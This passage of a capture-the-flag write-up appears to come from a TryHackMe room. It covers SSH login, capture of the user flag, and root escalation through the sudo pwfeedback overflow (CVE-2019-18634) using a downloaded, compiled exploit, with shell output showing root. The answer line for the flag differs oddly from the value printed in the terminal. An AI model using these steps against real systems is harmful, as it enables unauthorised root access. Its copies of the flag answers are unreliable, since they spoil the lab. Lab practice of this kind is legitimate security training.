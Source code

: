 `dak4ddb37b`

Log in as the user to SSH with the credentials you have.

`No answer needed`

What's the user flag?

```
james@hackernote:~$ cat user.txt
thm{56911bd7ba1371a3221478aa5c094d68}
```

`thm{56911bd7ba1371a3221478aa5c094d6812**123:))}`

## Task 5 Escalate

**Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

`sudo -l`

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

```
james@hackernote:~$ sudo -l
[sudo] password for james: **********
```

What is the CVE number for the exploit?

`CVE-2019-18634`

Find the exploit from https://github.com/saleemrashid/ and download the files.

`No answer needed`

Compile the exploit from Kali linux.

`No answer needed`

SCP the exploit binary to the box.

`No answer needed`

Run the exploit, get root.

```
james@hackernote:~$ ls -la
total 928
drwxr-xr-x 4 james james   4096 Nov 14 21:21 .
drwxr-xr-x 4 root  root    4096 Feb  8  2020 ..
lrwxrwxrwx 1 james james      9 Feb 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james    220 Feb  8  2020 .bash_logout
-rw-r--r-- 1 james james   3771 Feb  8  2020 .bashrc
drwx------ 2 james james   4096 Feb  8  2020 .cache
-rwxr-xr-x 1 james james 916872 Nov 14 21:21 exploit
drwx------ 3 james james   4096 Feb  8  2020 .gnupg
-rw-r--r-- 1 james james    807 Feb  8  2020 .profile
-rw------- 1 james james     38 Feb  8  2020 user.txt
james@hackernote:~$ ./exploit
[sudo] password for james:
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(james)
# cat /root/root.txt
```